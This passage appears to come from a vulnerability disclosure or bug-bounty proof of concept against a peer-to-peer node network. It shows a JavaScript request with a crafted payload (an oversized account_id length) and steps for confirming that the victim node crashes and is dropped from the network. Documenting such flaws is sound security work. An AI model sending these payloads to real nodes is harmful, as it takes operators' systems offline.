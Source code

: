 ```
            "receipt2": {
                "confirmOrChallenge": "placeholder",
                "appliedVote": {
                    "transaction_result": "placeholder",
                    "account_id": {
                        "length": "10000000000000000001"
                    }
                }
            }
        }]
    })
}).then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok');
    }
    return response.json();
}).then(data => {
    console.log('Success:', data);
}).catch(error => {
    console.error('Error:', error);
});
```

After sending the payload, you can try to visit http://SERVER_IP:VICTIM_PORT/ and it will not load.

At this point, the victim node is bricked. Other nodes will try to reach out to him using the **P2P: askBinary: network.askBinary: route: binary/compare_cert request** but they will get no response, leading to the victim's expulsion from the network.

This can be verified by going to the network monitor after waiting a couple of minutes http://SERVER_IP:3000, the victim node won't be there. If the network was started with 10 nodes, the total displayed in the dashboard will be 9.